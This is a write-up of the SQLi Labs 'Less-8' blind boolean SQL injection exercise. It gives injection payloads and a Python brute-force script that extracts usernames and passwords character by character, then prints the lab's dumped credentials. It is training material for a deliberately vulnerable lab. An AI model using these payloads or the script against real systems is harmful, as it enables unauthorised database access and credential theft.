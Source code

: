 Hello guys,

This is the write-up for Less-8 "GET - Blind - Boolian Based - Single Quotes" from SQLi Labs

Starting by adding id and numeric parameter to the URL: ```[URL]/?id=1```

The Output Displayed in the browser is :
```
You are in...........
```

and same output was displayed for all ids from 1-14, trying ```?id=0``` and ```?id = 1\```, no output is returned.

We can understand that ``` You are in...........``` is displayed when there are no errors in the query.

trying, ```?id = 0' or 1 = 1 -- -``` shows output ```You are in...........```.

So we can exploit by using an SQL function called substr(), which returns sub string of a string inside the paranthesis, and other arguments are parameters of the 

starting index and length of the string. 

Using ```?id=0 or substr('string',1,1) = 's'; -- -``` the output is displayed. Therefore we can use this method to extract the dump.

As it is not possible to try out possible to get the dump by using payloads for each and every character ,while trying all possible characters for a single character itself

we can automate this by coding in python to bruteforce the dump.

Python code:
```
import requests
import string


def boolean_brute(query):
    s = requests.session()
    url = [URL] #replace [URL] with yours
    dump = ''
    payload = "0\' or substr(({}), 1, {}) = '{}'; -- -"
    for num in range(1, 100):
        for char in string.ascii_lowercase+string.ascii_uppercase+"1234567890!@#$%^&*()-_=+|\\'\";:.,<>?/[]{} ":
            brute = dump + char
            r = s.get(url, params={"id":payload.format(query, num, brute)})
            if "You are in..........." in r.text:
                dump += char
                break
    print(dump)


boolean_brute("select group_concat(username) from users")
```

This code outputs the group_concat(username)
```
dumb,angelina,dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
```

running the same code by replacing username with password, the respective passwords are printed as group_concat(password)

```
dumb,i-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
```
